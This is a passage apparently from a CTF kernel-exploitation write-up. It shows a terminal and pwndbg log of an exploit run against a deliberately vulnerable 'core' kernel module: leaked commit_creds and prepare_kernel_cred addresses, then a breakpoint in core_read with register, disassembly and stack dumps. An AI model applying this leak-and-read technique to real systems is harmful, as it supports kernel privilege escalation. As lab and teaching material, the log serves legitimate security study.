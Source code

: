 ```bash
/ # /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffa169c8e0
vmlinux_base addr: 0xffffffffa1600000
prepare_kernel_cred addr: 0xffffffffa169cce0
[*]set off to 64
[*]read to buf.
......
......

// qemu 外
pwndbg> c
Continuing.
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!

Breakpoint 1, 0xffffffffc018b063 in core_read ()
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────[ REGISTERS ]──────────────────────────────────────
 RAX  0xffffffffc018b15f (core_ioctl) ◂— cmp    esi, 0x6677889b /* 0x48536677889bfe81 */
 RBX  0x7ffee6e56f10 ◂— 0
 RCX  0x0
 RDX  0x7ffee6e56f10 ◂— 0
 RDI  0x7ffee6e56f10 ◂— 0
 RSI  0x6677889b
 R8   0xffff8f25071b38ac ◂— 1
 R9   0x1
 R10  0x0
 R11  0x0
 R12  0xffff8f250540b7a0 ◂— mov    dh, 0x81 /* 0x581b6 */
 R13  0x6677889b
 R14  0x7ffee6e56f10 ◂— 0
 R15  0x0
 RBP  0x7ffee6e56f10 ◂— 0
 RSP  0xffffb0f3800dbe68 —▸ 0xffffffffc018b19b (core_ioctl+60) ◂— 0xc7c748d6894818eb
 RIP  0xffffffffc018b063 (core_read) ◂— push   rbx /* 0x7bc7c748fb894853 */
───────────────────────────────────────[ DISASM ]────────────────────────────────────────
 ► 0xffffffffc018b063 <core_read>       push   rbx
   0xffffffffc018b064 <core_read+1>     mov    rbx, rdi
   0xffffffffc018b067 <core_read+4>     mov    rdi, -0x3fe73f85
   0xffffffffc018b06e <core_read+11>    sub    rsp, 0x48
   0xffffffffc018b072 <core_read+15>    mov    rax, qword ptr gs:[0x28]
   0xffffffffc018b07b <core_read+24>    mov    qword ptr [rsp + 0x40], rax
   0xffffffffc018b080 <core_read+29>    xor    eax, eax
   0xffffffffc018b082 <core_read+31>    call   0xffffffffa16c6845

   0xffffffffc018b087 <core_read+36>    mov    rsi, qword ptr [rip + 0x2b72]
   0xffffffffc018b08e <core_read+43>    mov    rdx, rbx
   0xffffffffc018b091 <core_read+46>    mov    rdi, -0x3fe73f6b
────────────────────────────────────────[ STACK ]────────────────────────────────────────
00:0000│ rsp  0xffffb0f3800dbe68 —▸ 0xffffffffc018b19b (core_ioctl+60) ◂— 0xc7c748d6894818eb
```